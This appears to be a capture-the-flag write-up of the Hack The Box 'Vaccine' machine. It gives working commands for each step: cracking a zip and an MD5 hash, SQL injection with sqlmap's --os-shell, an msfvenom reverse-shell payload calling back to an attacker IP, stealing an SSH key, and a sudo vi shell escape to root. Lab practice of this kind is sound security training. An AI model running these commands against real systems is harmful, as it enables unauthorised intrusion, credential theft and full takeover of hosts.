 ```yaml
---
title: Vaccine
published: true
tags: [Databases, Injection, Apache, PostgreSQL, FTP, PHP, Password Cracking, RCE]
---
```


An easy box with with a sql injection vulnerability.

Start with adding Vaccine to `/etc/hosts` then after the initial nmap scan we can service scan the 3 ports we discover.

- `sudo nmap -sC -sV -O -p21,22,80 vaccine.htb -oN nmap_second`

FTP access allows anonymous login we can grab a file `backup.zip` from there. Trying to unzip this file we have a password protected zip file containingh index.php and style.css

We can use johns `zip2john backup.zip > backup.zip.hash` to create a readable hash we can feed to john to crack the zipfile. once complete feed to john with `john backup.zip.hash` and we find the password `741852963`.

Checking the index.php we find some credentials `admin` and an md5 password which we can feed to crackstation.net and get `qwerty789` Login to admin.

The next page we coem to has a search and using sqlmap to test for injection we get lucky `sqlmap -u http://vaccine.htb/dashboard.php?search=1 --os-shell --cookie=PHPSESSID=o4htgfqc51canihdh9o93rdc44`

we can use this to get a reverse shell on the target. 

- generate payload `msfvenom -p linux/x86/meterpreter_reverse_tcp -f elf LHOST=10.10.16.193 LPORT=8765 > rev.elf` and wget over to the target.

After setting up a multi handler with the correct payload ./rev.elf and get a shell. We could have also just read the .ssh file inside the postgres home dir and grab the id_rsa. Doing that now for a stable connection.

Inside the /var/www/html we find a dashboard.php with postgres creds. `P@s5w0rd!` allowing us to run `sudo -l`

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
- FOLLOWED BY `:!/bin/sh` and we are root.








